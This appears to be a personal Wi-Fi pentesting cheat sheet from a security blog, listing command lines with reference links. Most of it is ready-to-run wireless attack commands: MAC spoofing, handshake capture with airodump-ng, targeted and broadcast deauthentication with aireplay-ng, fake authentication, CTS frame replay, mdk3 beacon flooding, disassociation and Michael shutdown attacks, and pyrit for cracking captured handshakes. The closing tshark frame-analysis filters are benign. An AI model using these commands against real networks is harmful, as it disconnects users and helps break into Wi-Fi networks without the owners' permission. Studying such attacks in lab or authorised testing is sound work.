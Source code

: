 ```yaml
---
layout: single
title: Wifi Pentest
date: 2021-08-31
classes: wide
header:
  teaser: /assets/images/security.jpg
categories:
  - Blue Team
  - infosec
tags:
  - Blue Team
  - Red Team
---
```


## Monitor
https://www.acrylicwifi.com/blog/modo-monitor-wifi/

Enable

```
sudo airmon-ng start wlx00c

pkill dhclient && pkill wpa_supplicant

iw config 

sudo ifconfig wlan1mon up

```

## restart network

```
/etc/init.d/networking restart
```


## MAC address spoofing

https://wiki.archlinux.org/title/MAC_address_spoofing_(Espa%C3%B1ol)

```
macchanger -l | grep -i "apple"

sudo macchanger --mac=00:20:91:ad:fa:91 wlan1mon
```

https://es.wikipedia.org/wiki/Aircrack-ng#:~:text=Aircrack%2Dng%20es%20una%20suite,airbase%2Dng

```
sudo airodump-ng wlan1mon
```
https://yisux.wordpress.com/2009/03/11/aircrack-ng-comandos-basicos-para-ataques-con-clientes-asociados/

https://www.aircrack-ng.org/~~V:/doku.php?id=es:airodump-ng#:~:text=Airodump%2Dng%20se%20usa%20para,y%20obtener%20la%20clave%20WEP.

## Specific channel

```
airodump-ng -c 1 wlan1mon
```

## Filter

```
airodump-ng -c 3 --essid AndroidAP7739 wlan1mon
--bssid
```

## Export data

```
airodump-ng -c 3 -w Captura --essid AndroidAP7739 wlan1mon
```

## Handshake

https://hacking-etico.com/2013/05/08/redes-wifi-con-wpawpa2inviolables/#:~:text=El%20handshake%20es%2C%20a%20grosso,la%20contrase%C3%B1a%20WiFi%20pero%20cifrada.

## Desautenticación 
https://www.google.com/search?q=Ataque+de+de-autenticaci%C3%B3n+aireplay&rlz=1C1GCEA_enES868ES868&oq=Ataque+de+de-autenticaci%C3%B3n+aireplay&aqs=chrome..69i57j33i160.5751j0j7&sourceid=chrome&ie=UTF-8
https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack
Drigido 
```
aireplay-ng -0 10 -e AndroidAP7739 -c MACCLIENTE wlan1mon
```

Global
```
aireplay-ng -0 10 -e AndroidAP7739 -c FF:FF:FF:FF:FF:FF wlan1mon
aireplay-ng -0 10 -e AndroidAP7739  wlan1mon
```

##  Autenticación falsa

https://www.aircrack-ng.org/doku.php?id=es:shared_key

```
aireplay-ng -1 0 -e AndroidAP7739 -a MACCLIENT -h FALSAMAC wlan1mon
```

## CTS Frame Attack

```
tshark -r captura-01.cap -Y "wlan.fc.type_subtype==28" 2>/dev/null # CHECK CTS
tshark -r captura-01.cap -Y "wlan.fc.type_subtype==28" -Tjson 2>/dev/null # CHECK CTS
tshark -r captura-01.cap -Y "wlan.fc.type_subtype==28" -Tfields -e wlan.duration 2>/dev/null # CHECK CTS

wireshark captura-01.cap > /dev/null 2>&1 &
disown

```

Change HEX BEFORE LAST 10 ADD 30 AND THE NUMBER

```
ghex captura.cap

```

```
tcpreplay --intf1=wlan0mon --topspeed --loop=2000 prueba.cap 2>/dev/null
```

## Beacon flood mode

https://mundo-hackers.weebly.com/beacon-flood.html

```
for i in $(seq 1 10); do echo $1; done
for i in $(seq 1 10); do echo "MyNetwork$i" >> redes.txt; done

mdk3 wlan0mon b -f redes -a -s 1000 -c 3

```

## Disassociation amok mode

https://mundo-hackers.weebly.com/amok-mode---disassociation.html


```
nano blacklist # añadir station (clientes a expulsar)
mdk3 d -w blacklist -c 1
```

## Michael shutdown exploitation
https://mundo-hackers.weebly.com/michael-shutdown-exploitation.html
```
mdk3 wlan0mon m -t MAC 
```

## pyrit

https://github.com/JPaulMora/Pyrit

```
wget 

https://pypi.python.org/packages/6d/72/c055abd32bcd4ee6b36ef8e9ceccc2e242dea9b6c58fdcf2e8fd005f7650/scapy-2.3.2.tar.gz

python setup.py clean
python setup.py build
python setup.py install

python pyrit -r captura.cap analyze
```

## Probe Request

https://notasinalambricas.wordpress.com/tag/probe-request/

```
tshark -r captura.cap -Y "wlan.fc.type_subtype==4" 2>/dev/null

```

## Probe Response

https://notasinalambricas.wordpress.com/tag/probe-response/

```
tshark -r captura.cap -Y "wlan.fc.type_subtype==5" 2>/dev/null
```

## Association Request
https://mrncciew.com/2014/10/28/802-11-mgmt-association-reqresponse/

```
tshark -r captura.cap -Y "wlan.fc.type_subtype==0" 2>/dev/null
tshark -r captura.cap -Y "wlan.fc.type_subtype==0" -TJson 2>/dev/null 
tshark -r captura.cap -Y "wlan.fc.type_subtype==0" -Tfields -e wlan.addr 2>/dev/null | tr ',' '\n' | sort -u
```
## Association Response
https://mrncciew.com/2014/10/28/802-11-mgmt-association-reqresponse/

```
tshark -r captura.cap -Y "wlan.fc.type_subtype==1" 2>/dev/null 
```

## Beacon packet

https://es.wikipedia.org/wiki/Beacon_frame


```
tshark -r captura.cap -Y "wlan.fc.type_subtype==8" 2>/dev/null
tshark -r captura.cap -Y "wlan.fc.type_subtype==8" -Tjson 2>/dev/null

```

